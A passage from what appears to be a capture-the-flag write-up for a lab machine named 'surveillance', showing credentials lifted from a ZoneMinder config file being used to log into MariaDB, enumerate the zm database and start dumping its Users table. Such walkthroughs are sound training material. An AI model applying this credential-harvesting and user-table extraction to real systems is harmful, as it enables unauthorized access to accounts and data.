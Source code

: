 ```bash
			$this->default['host'] = ZM_DB_HOST;
		endif;
	}
}
```

Login to `mysql` with the credentials found.

```bash
matthew@surveillance:/usr/share/zoneminder/www/api/app/Config$ mysql -u zmuser -p
Enter password: ZoneMinderPassword2023
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2431
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04
...
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| zm                 |
+--------------------+
MariaDB [(none)]> use zm
Database changed
MariaDB [zm]> show tables;
+-----------------+
| Tables_in_zm    |
+-----------------+
| Config          |
| ControlPresets  |
| Controls        |
| Devices         |
| Event_Summaries |
| Events          |
| Events_Archived |
| Events_Day      |
| Events_Hour     |
| Events_Month    |
| Events_Week     |
| Filters         |
| Frames          |
| Groups          |
| Groups_Monitors |
| Logs            |
| Manufacturers   |
| Maps            |
| Models          |
| MonitorPresets  |
| Monitor_Status  |
| Monitors        |
| MontageLayouts  |
| Servers         |
| Sessions        |
| Snapshot_Events |
| Snapshots       |
| States          |
| Stats           |
| Storage         |
| TriggersX10     |
| Users           |
| ZonePresets     |
| Zones           |
+-----------------+
MariaDB [zm]> select * from Users;
```